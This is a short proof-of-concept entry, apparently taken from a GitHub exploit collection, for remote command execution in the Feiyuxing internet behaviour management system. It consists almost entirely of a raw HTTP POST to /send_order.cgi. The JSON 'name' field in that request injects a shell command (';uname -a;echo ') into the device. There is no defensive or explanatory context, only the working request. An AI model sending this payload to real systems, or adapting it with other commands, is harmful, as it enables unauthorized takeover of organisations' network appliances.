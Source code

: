 # feiyuxing_send_order_rce

from: https://github.com/wy876/POC/blob/main/%E9%A3%9E%E9%B1%BC%E6%98%9F%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F%E4%BC%81%E4%B8%9A%E7%89%88%E5%89%8D%E5%8F%B0RCE.md 
2024.3.25 @2
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

{"opid":"777777777777777777","name":";uname -a;echo ","type":"rest"}
```
